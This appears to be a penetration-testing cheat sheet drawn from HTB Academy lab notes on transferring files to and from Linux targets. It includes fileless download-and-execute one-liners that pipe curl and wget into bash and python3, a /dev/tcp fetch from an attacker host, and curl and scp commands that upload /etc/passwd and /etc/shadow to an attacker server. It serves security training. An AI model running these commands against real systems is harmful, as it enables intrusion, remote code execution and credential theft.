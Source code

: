# Linux

## Download

### Copy\&Paste

This works by encoding the file as base64 and copying it to the destination and decode the string back to file. This might come in handy.

**Linux - encode to base64**

```shell-session
kali@kali $ cat <file> |base64 -w 0;echo
```

**Linux - decode 64**

```shell-session
kali@kali $ echo <base64 contents> | base64 -d > hosts
```

**Linux - check hash**

```shell-session
kali@kali $ md5sum <file>
```

### Web Download (Wget\&cURL)

**Linux - wget**

```shell-session
kali@kali $ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

**Linux - curl**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali $ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
</strong></code></pre>

### Fileless attack (in Linux)

Pipe the command without outputting to excecuter

**Linux - fileless attack with curl**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali $ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
</strong></code></pre>

**Linux - fileless attack with curl**

```shell-session
kali@kali $ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Bash (/dev/tcp)

> Only works if the Bash version is >= 2.04, This version of /dev/tcp can be use to perform simple file transfer.

Following are the series of commands that performs a file download (assuming the attackers' machine is running a webserver.

```shell-session
kali@kali $ exec 3<>/dev/tcp/10.10.10.32/80 # Connects to attack machine
kali@kali $ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3 # Performs GET request
kali@kali $ cat <&3 # Print the response
```

### **SSH (File transfer)**

First check for the SSH listening port

```shell-session
kali@kali $ netstat -lnpt
```

**Linux - Downloading Files Using SCP**

```shell-session
kali@kali $ scp <user>@192.168.49.128:/root/myroot.txt . 
```

> Create a temporary user to avoid using primary credentials or keys on a remote computer

## Upload

### Web Upload (uploadserver.py)

On the **attacker**'s machine, create a  certificate (below is self-signed cer) then create upload server using Python3's `uploadserver` module.

**Linux - Create a Self-Signed Certificate**

```shell-session
kali@kali $ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell-session
kali@kali $ mkdir https && cd https
kali@kali $ python3 -m uploadserver 443 --server-certificate /root/server.pem
```

**Linux - Upload Multiple Files**

```shell-session
kali@kali $ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Web Upload (Python server)

**Linux - Create Python3 HTTP server**

```shell-session
kali@kali $ python3 -m http.server <port> # port is optional
```

**Linux - Create Python2.7 HTTP server**

```shell-session
kali@kali $ python2.7 -m SimpleHTTPServer <port> # port is optional
```

### Web Upload (Other HTTP servers)

**Linux - Create PHP HTTP server**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali $ php -S 0.0.0.0:8000
</strong></code></pre>

**Linux - Create Ruby HTTP server**

```shell-session
kali@kali $ ruby -run -ehttpd . -p8000
```

### Downloading files from above **HTTP** servers

```shell-session
kali@kali $ wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload

```shell-session
kali@kali $ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/

plaintext@192.168.49.128's password: 
```

## Resources

Most of the commands and contents are from **HTB academy lab!**
